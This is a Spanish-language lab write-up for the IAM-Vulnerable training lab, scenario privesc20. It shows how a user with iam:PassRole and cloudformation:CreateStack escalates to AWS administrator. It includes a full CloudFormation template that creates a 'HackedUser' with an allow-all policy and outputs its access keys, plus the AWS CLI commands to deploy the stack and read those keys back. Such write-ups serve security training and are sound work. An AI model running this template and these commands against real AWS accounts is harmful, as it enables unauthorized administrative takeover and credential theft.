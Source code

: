 ```yaml
---
description: 'Lab: IAM-VULNERABLE'
---
```


# PassExistingRoleToCloudFormation

Un atacante con los permisos de <mark style="color:green;">**iam:PassRole**</mark> y <mark style="color:green;">**cloudformation:CreateStack**</mark> podría aumentar sus privilegios mediante la creación de una plantilla de CloudFormation que realizará acciones y creará recursos utilizando los permisos del rol que se pasó al crear una pila de CloudFormation

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc20
{% endembed %}

### Configuración inicial

Usuario del laboratorio: privesc20-PassExistingRoleToCloudFormation-user Con las siguientes políticas

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Y configurar las llaves de acceso con AWS CLI\


<figure><img src="../../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, tenemos que aprovechar del privilegio de <mark style="color:green;">**cloudformation:CreateStack**</mark> para crear un stack que tendrá lo necesario para escalar privilegios. Posteriormente, utilizaremos el permiso <mark style="color:green;">**cloudformation:DescribeStacks**</mark> para visualizar información relacionada al stack malicioso.&#x20;

No hay una serie de pasos específicos para escalar privilegios mediante el uso de CloudFormation. Ya que el atacante puede indicarle a CloudFormation que active cualquier recurso de AWS. En pocas palabras, se puede utilizar Cloudformation para escalar privilegios de diversas maneras como, por ejemplo, creando un nuevo usuario con permisos de administrador como se usa en el ejemplo a continuación.

Para este ejercicio se requiere de una plantilla para crear un usuario con privilegios de administrador:

{% code title="IAMCreateUserTemplate.json" overflow="wrap" %}
```json
{
  "Resources": {
    "HackedUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description" : "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": [
                "*"
              ],
              "Resource": "*"
            }
          ]
        },
        "Users": [{
          "Ref": "HackedUser"
        }]
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "HackedUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": [
          "MyUserKeys",
          "SecretAccessKey"
        ]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}

```
{% endcode %}

Despues usando el comomando cloudformation create-stack se crea un stack con el parámetro --role para hace ruso de PassRole al servicio.

{% code overflow="wrap" %}
```
aws cloudformation create-stack --stack-name privesc --template-body file:///home/user/IAMCreateUserTemplate.json --role arn:aws:iam::ID_account:role/privesc-high-priv-service-role --capabilities CAPABILITY_IAM --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

En la evidencia previa, podemos apreciar el valor del StackId que fue retornado después de ejecutar el comando para crear el stack malicioso. Ahora que hemos creado nuestro stack malicioso, vamos aprovechar nuestro otro privilegio de cloudformation:DescribeStacks para visualizar el outputkey y posteriormente autenticarnos con estas credenciales.

{% code overflow="wrap" %}
```
aws cloudformation describe-stacks --stack-name arn:aws:cloudformation:us-east-1:ID_Account:stack/privesc --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (60) (1).png" alt=""><figcaption></figcaption></figure>

En la imagen se muestra la correcta creación del stack junto con las credenciales de acceso del usuario admin creado. se procede a utilizar esas llaves de acceso

<figure><img src="../../../../.gitbook/assets/image (61) (1).png" alt=""><figcaption></figcaption></figure>

Usando estas credenciales se listan las capacidades del usuario creado

<figure><img src="../../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

Como se observa, el usuario HackedUser, tiene políticas de full administrador, habiendo comprometido y escalado privilegios de manera correcta.



